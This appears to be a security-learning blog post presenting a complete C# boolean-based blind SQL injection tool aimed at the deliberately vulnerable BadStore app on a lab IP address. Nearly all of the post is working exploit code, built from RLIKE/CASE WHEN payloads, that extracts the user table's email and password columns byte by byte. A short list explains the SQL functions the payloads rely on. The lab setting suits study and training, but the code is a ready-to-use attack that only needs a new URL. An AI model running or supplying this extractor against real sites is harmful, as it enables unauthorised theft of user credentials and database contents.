 ```yaml
---
title: Creating a Blind/Boolean based mutational fuzzer to dump the database.
date: 2021-06-12 11:45:47 +07:00
categories: greyhatcch2
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a Blind/Boolean based mutational fuzzer to dump the database.
---
```


## This Program is a Boolean-Based Blind mutational fuzzer that will use true/false questions in order to glean information 1 byte at a time.

_This exploit is more complicated than the UNION based sql fuzzer and requires much more time to retrieve the data._

- We use the:
  > `RLIKE function` to match values with a regular expression which can be used like an 'if-else' statement for true/false queries.
  
  > Couple "CASE WHEN" statements in the `RLIKE function` for the 'if-else' functionality.
  
  > `COUNT(*) function` to return an integer for the number of rows in a table.
  
  > `MID() function` returns a particular substring depending on the starting index and length to return.
  
  > `ORD() function` converts a given input into an integer equivalent for matching data.
- The `GetString() method` from the "Encoding.ASCII" class to convert the array of bytes returned into a human readable string.



### Code block:

```Csharp
using System;
using System.Net;
using System.Reflection;
using System.IO;
using System.Net.Sockets;
using System.Collections.Generic;
using System.Text;

namespace Boolean_Blind_Sql_Injection
{
    class Program
    {
        static void Main(string[] args)
        {
            // Asks server for length of no of rows in userdb table
            int countLength = 1;
            for (; ; countLength++)
            {
                string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
                getCountLength += " LENGTH(IFNULL(CAST(COUNT(*) AS CHAR), NULL)) FROM";
                getCountLength += " userdb)=" + countLength + ") THEN 0x28 ELSE 0x41 END))";
                getCountLength += " AND '";

                string response = MakeRequest(getCountLength);
                if (response.Contains("parentheses not balanced"))
                    break;
            }

            // Asks server for no of rows in userdb table
            List<byte> countBytes = new List<byte>();
            for (int i = 1; i <= countLength; i++)
            {
                for (int c = 48; c <= 58; c++)
                {
                    string getCount = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT";
                    getCount += " IFNULL(CAST(COUNT(*) AS CHAR), NULL) FROM userdb),";
                    getCount += i + ", 1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND '";
                    string response = MakeRequest(getCount);

                    if (response.Contains("parentheses not balanced"))
                    {
                        countBytes.Add((byte)c);
                        break;
                    }
                }
            }
            // Converts and prints no of rows
            int count = int.Parse(Encoding.ASCII.GetString(countBytes.ToArray()));
            Console.WriteLine("[+] No of rows in userdb: " + count);



            // Calling methods and printing values
            for (int row = 0; row < count; row++)
            {
                foreach (string column in new string[] { "email", "passwd" })
                {
                    Console.WriteLine("[!] Getting length of query value...");
                    int valLength = GetLength(row, column);
                    Console.WriteLine(valLength);

                    Console.WriteLine("[!] Getting value...");
                    string value = GetValue(row, column, valLength);
                    Console.WriteLine(value);
                }

            }

        }

        // Makes request and returns response
        private static string MakeRequest(string payload)
        {
            string url = "http://192.168.216.128/cgi-bin/badstore.cgi?action=search&searchquery=";
            HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url + payload);

            string response = string.Empty;
            using (StreamReader reader = new StreamReader(request.GetResponse().GetResponseStream()))
                response = reader.ReadToEnd();

            return response;
        }

        
        // Ask server for actual length of the value
        private static int GetLength(int row, string column)
        {
            // Retrieves length
            int countLength = 0;
            for (; ; countLength++)
            {
                string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
                getCountLength += " LENGTH(IFNULL(CAST(CHAR_LENGTH(" + column + ") AS";
                getCountLength += " CHAR),NULL)) FROM userdb ORDER BY email LIMIT ";
                getCountLength += row + ",1)=" + countLength + ") THEN 0x28 ELSE 0x41 END)) AND";
                getCountLength += " 'TiT'='TiT";
                string response = MakeRequest(getCountLength);

                if (response.Contains("parentheses not balanced"))
                    break;
             }

            // Retrieve length actual val
            List<byte> countBytes = new List<byte>();
            for (int i = 0; i <= countLength; i++)
            {
                for (int c = 48; c <= 58; c++)
                {
                    // Changed it to a single string as it was easier to debug
                    string getLength = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(CHAR_LENGTH(" + column + ") AS CHAR),NULL) FROM userdb ORDER BY email LIMIT " + row + ",1)," + i + ",1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND 'TIT'='TIT";

                    string resp = MakeRequest(getLength);
                    if (resp.Contains("parentheses not balanced"))
                    {
                        countBytes.Add((byte)c);
                        break;
                    }                      
                }                    
            }
            if (countBytes.Count > 0)
                return int.Parse(Encoding.ASCII.GetString(countBytes.ToArray()));
            else
                return 0;  
        }

        // Ask server and retrieve a given value
        private static string GetValue(int row, string column, int length)
        {
            List<byte> valBytes = new List<byte>();
            for (int i = 0; i <= length; i++)
            {
                for (int c = 32; c <= 126; c++)
                {
                    string getChar = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(" + column + " AS CHAR),NULL) FROM userdb ORDER BY email LIMIT " + row + ",1)," + i + ",1))=" + c + ") THEN 0x28 ELSE 0x41 END)) AND 'TIT'='TIT";

                    string response = MakeRequest(getChar);
                    if (response.Contains("parentheses not balanced"))
                    {
                        valBytes.Add((byte)c);
                        break;
                    }
                }
            }
                return Encoding.ASCII.GetString(valBytes.ToArray());

        }
    }
}

```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch2/Boolean_blind_sql_fuzzer/boolean_blind_sql_fuzzer.png)
